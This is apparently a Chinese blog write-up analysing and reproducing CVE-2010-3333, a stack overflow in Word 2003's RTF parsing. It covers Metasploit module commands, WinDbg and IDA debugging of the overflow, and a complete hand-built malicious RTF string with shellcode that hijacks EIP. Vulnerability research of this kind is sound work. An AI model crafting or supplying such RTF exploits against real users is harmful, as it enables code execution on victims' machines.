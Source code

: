 ```yaml
---
layout:		post
title:		CVE-2010-3333分析 & 复现
author:		wooy0ung
tags:		cve
category:  	exploit
---
```



>[分析环境]  
>系统: Windows XP SP3  
>漏洞软件: Microsoft Office Word 2003 SP3  
>注意: 需要安装英文版, 安装后不是SP3的记得打上SP3的补丁包。  
>摘要: CVE-2010-3333(MS10-087)是Microsoft Office Word在处理RTF文档的绘图pFragments属性时产生的一个栈溢出漏洞。
<!-- more -->


### 0x00 前期准备

安装Microsoft Office 2003 SP3 & 生成msf.rtf

```
msf > use exploit/windows/fileformat/ms10_087_rtf_pfragments_bof
msf > info
msf > set target 6
msf > run
```

![](/assets/img/exploit/2017-09-25-cve-2010-3333/0x00.png)

启动Word, WinDbg附加上去, 打开msf.rtf触发异常, 断在了内存copy指令rep movs(0x30ed442c)上

![](/assets/img/exploit/2017-09-25-cve-2010-3333/0x01.png)

发现该指令往READONLY内存区域写数据, 触发异常

![](/assets/img/exploit/2017-09-25-cve-2010-3333/0x02.png)

定位mso.dll模块的路径

```
# 以上用到的命令
> db esi
> db edi
> !address edi
> lmm mso v
```


### 0x01 栈回溯

重新载入, 在0x30ed442c下断, 定位崩溃函数的调用函数

![](/assets/img/exploit/2017-09-25-cve-2010-3333/0x03.png)
![](/assets/img/exploit/2017-09-25-cve-2010-3333/0x04.png)

目标函数地址0x30f0b5c2, 下断, 重新载入, 单步到30F0B5F8 call dword ptr [eax+1Ch]跟进去

![](/assets/img/exploit/2017-09-25-cve-2010-3333/0x05.png)

定位到30ED4424 add esi, [eax+10h], 此处赋值esi=1005000c, 指向存放rtf pFragments数据的地址

![](/assets/img/exploit/2017-09-25-cve-2010-3333/0x06.png)

再单步到30ED442C rep movsd, ecx=0xc8ac(需要copy的字节数)/4=0x322b

![](/assets/img/exploit/2017-09-25-cve-2010-3333/0x07.png)

F5直接运行, 触发异常, 打印待copy的数据

![](/assets/img/exploit/2017-09-25-cve-2010-3333/0x08.png)

对比PoC, ecx长度过大, 覆盖到不可写区域崩溃掉

![](/assets/img/exploit/2017-09-25-cve-2010-3333/0x09.png)
![](/assets/img/exploit/2017-09-25-cve-2010-3333/0x0a.png)

```
#以上用到的命令
> bp 30ed442c
> kb
> ub mso!Ordinal1273+0x2581
```


### 0x02 静态分析

打开IDA, 载入mso.dll, 定位到30ED4407 mov edi, [esp+4+arg_4]

![](/assets/img/exploit/2017-09-25-cve-2010-3333/0x0b.png)

edi指向一个栈地址, 看一下栈布局, 从arg_4开始覆盖

![](/assets/img/exploit/2017-09-25-cve-2010-3333/0x0c.png)

定位到sub_30f0b5c2, 再看看调用函数的栈布局

![](/assets/img/exploit/2017-09-25-cve-2010-3333/0x0d.png)

返回地址偏移上面arg_4 0x18-0x08+0x04=0x14 byte, 也就是任意填充14byte就到达返回地址


### 0x03 手工构造exp

截取msf.rtf的头部

![](/assets/img/exploit/2017-09-25-cve-2010-3333/0x0e.png)

填充14 byte 1111...后,再填充4byte 2222...., 最后填充}}}}将数据封闭上

![](/assets/img/exploit/2017-09-25-cve-2010-3333/0x0f.png)

这里14byte、4byte是对栈数据来说, 实际上上WinHex上分别要填充28byte、8byte

![](/assets/img/exploit/2017-09-25-cve-2010-3333/0x10.png)

Windbg附加上去, 在30F0B6BA retn 14h断下, 单步一下, 发现eip=22222222, 成功劫持了eip

```
# 0x7ffa4512(万能跳)+0x28byte * '0'+shellcode
{\rtf1{\shp{\sp{\sn pFragments}{\sv 5;3;11111111111111111111111111111111111111111111111111111245fa7f000000000000000000000000000000000000000031d2b230648b128b520c8b521c8b42088b72208b12807e0c3375f289c703783c8b577801c28b7a2001c731ed8b34af01c645813e4661746175f2817e084578697475e98b7a2401c7668b2c6f8b7a1c01c78b7caffc01c76867202001687930756e6820776f6f89e1fe490b31c05150ffd7}}}}
```

然后就是构造rop了, 不再赘述, pwn!

![](/assets/img/exploit/2017-09-25-cve-2010-3333/0x11.png)